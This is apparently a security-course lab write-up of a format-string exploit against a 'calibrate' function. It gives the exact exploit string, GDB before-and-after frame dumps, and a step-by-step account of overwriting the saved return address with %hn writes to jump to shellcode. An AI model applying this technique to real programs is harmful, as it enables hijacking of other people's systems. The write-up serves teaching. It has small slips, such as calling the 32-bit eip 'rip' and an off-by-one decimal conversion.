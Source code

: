 ```
printf (
    fmt=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n") at src/stdio/printf.c:8
(gdb) i f
Stack level 0, frame at 0xffffd530:
 eip = 0x8049abe in printf (src/stdio/printf.c:8); saved eip = 0x804922f
 called by frame at 0xffffd560
 source language c.
 Arglist at 0xffffd528, args:
    fmt=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n"
 Locals at 0xffffd528, Previous frame's sp is 0xffffd530
 Saved registers:
  eip at 0xffffd52c
```

## Exploit Structure
#### (A description of your exploit structure)
We essentially want to overwrite the rip of ```calibrate``` with the address of shellcode. This is done in multiple parts:
1. First, skip past 15 words to point arg[i] pointer of ```printf``` to the start of ```buf``` because that is where we can control the input. 
2. We then print out 0xd78a number of bytes to be able to overwrite the rip of ```calibrate``` with the address of the shellcode. We then write to the memory at 0xffffd55c using %hn.
3. After, we print out remaining bytes to reach 0xffff (0xffff - 0xd78a) because we want to complete the address of shellcode by writing it to the second half of rip of calibrate at 0xffffd55e to complete the overwrite. We wrote to memory using %hn instead of %n because 0xffffd78a = 4294956937 in decimal is a lot of bytes to print out and write to which can cause the program to crash. So we split it in half 0xffff = 65535 and 0xd78a = 55178. 

This causes the ```calibrate``` funciton to start executing the shellcode when it returns. 

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) i f
Stack level 0, frame at 0xffffd560:
 eip = 0x8049232 in calibrate (calibrate.c:9); saved eip = 0xffffd78a
 called by frame at 0xffffd600
 source language c.
 Arglist at 0xffffd558, args:
    buf=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n"
 Locals at 0xffffd558, Previous frame's sp is 0xffffd560
 Saved registers:
  ebp at 0xffffd558, eip at 0xffffd55c
```
The rip of ```calibrate``` at 0xffffd55c is successfully overwritten with the address of shellcode (0xffffd78a). 
